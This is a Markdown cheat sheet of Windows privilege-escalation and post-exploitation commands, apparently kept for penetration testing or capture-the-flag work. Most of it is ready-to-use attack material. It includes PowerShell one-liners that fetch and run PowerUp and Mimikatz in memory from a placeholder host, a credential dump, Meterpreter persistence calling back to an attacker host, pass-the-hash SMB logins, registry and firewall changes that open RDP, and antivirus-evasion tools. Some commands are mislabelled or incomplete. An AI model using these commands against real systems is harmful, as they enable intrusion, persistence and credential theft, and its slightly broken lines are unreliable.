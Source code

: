 # Privilege Escalation

## basic enumeration
Get Version:
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`
Check for other drives via meterpreter:
`show_mount`
List intalled programs via meterpreter:
`reg query HKEY_LOCAL_MACHINE\SOFTWARE`
Use powerup in memory without touching disk:
`IEX(New-Object Net.WebClient).DownloadString("http://<ip>:<port>/PowerUp.ps1");Invoke-AllChecks
`

## check the Linux Subsystem for interesting files
Its available in Windows 10 and Server 2016+, usually the path looks like this:
`C:\Users\<name>\AppData\Local\Packages\CanonicalGroup...`


## Persistence
`run persistence -U -i 60 -p <LPORT> -r <LHOST>`


## Searching

Writeable directories:
`dir /a-r-d /s /b`
Files by name:
`dir /s *foo*`
Files by content:
`findstr /s /i <needle> *.*`
Files by owner:
`DIR C:\*.* /S /Q|FIND /i "owner"`  
Search in meterpreter by extension:
`search -f *.<ext>`


## check named pipes

PS `[System.IO.Directory]::GetFiles("\\.\\pipe\\")`


## reverse shell

If no AV is present you can upload the simple nc.exe from Seclists. 

Otherwise Unicorn generates great powershell and hta shells that are difficult to detect. These can be converted with PS2EXE to PE Files when that is required.


## av evasion

* shelter https://www.shellterproject.com/download/ can inject shellcode into legit 32-Bit Executables and is likely to get not detected

## runas

The tool `runas` can use cached credentials with the `/savecred` option, however it will open a new `cmd.exe` which is a problem with remote shells.

```bash cheat runas runas with savecred
runas /user:administrator /savecred "cmd.exe /k whoami"
```

## misc

* you can import empires power-up into meterpreter (https://www.hackingarticles.in/window-privilege-escalation-via-automated-script/)
* escape character in windows is `^`

## isos

* You can get get legit Windows-VMs from https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/

## SMB

```bash cheat smb enumerate
smbmap -R -H \\<ip>

smbclient -L \\<ip> -N

smbclient \\<ip>\share -U <user>

smbget -R <ip>

```

```bash cheat smb login
python2 /usr/bin/smbclient.py <Domain>/<user>@<ip> -hashes <part1>:<part2>

auxiliary/scanner/smb/smb_login  

crackmapexec <ip(s)> -d <domain> -u <user> -p <pass>

exploit/windows/smb/psexec

net use z: \\<ip>\c$ /user:<username> <password>
```

* https://blog.ropnop.com/using-credentials-to-own-windows-boxes/

## Firewall

### Disable Firewall on Windows 7

Changing /d 0, to /d 1.
`Reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server"  /v fDenyTSConnections /t REG_DWORD /d 0 /f`

Or via powershell:
`powershell.exe -ExecutionPolicy Bypass -command 'Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" –Value'`

### Enable Remote Desktop

`netsh advfirewall firewall set rule group="Remotedesktop" new enable=yes`

Or via powershell:
`powershell.exe -ExecutionPolicy Bypass -command 'Enable-NetFirewallRule -DisplayGroup "Remote Desktop"'`

These need a group name. Get them via:
`netsh advfirewall firewall show rule name=all|find "Gruppierung:"`

## RDP

Good clients are xfreerdp, rdesktop and remmina. PTH-Attacks are possible with xfreerdp (See http://www.fuzzysecurity.com/tutorials/16.html).

## In Memory Powershell Payload Download & Execution

`IEX(New-Object Net.WebClient).downloadString('<url>/<payload>') ;<methodName>`

### Useful Payloads:

```bash cheat powerup PowerUp:
IEX(New-Object Net.WebClient).downloadString('<url>/PowerUp.ps1') ;Invoke-AllChecks
```

```bash cheat mimikatz mimikatz powershell:
IEX(New-Object Net.WebClient).downloadString('<url>/MimiKatz.ps1') ;Invoke-Mimikatz -DumpCreds
```

## Powershell Download File

Pay attention to the -Outfile it is very much needed
`Invoke-WebRequest "http://<ip>:<port>/<in file>" -OutFile "<out file>"`

## Powershell in Meterpreter

`load powershell` + `powershell_shell`

## Persistence

`run persistence -U -i 60 -p <LPORT> -r <LHOST>`

## links

* https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

tags: #privilege_escalation #privesc #windows #powershell #iex 
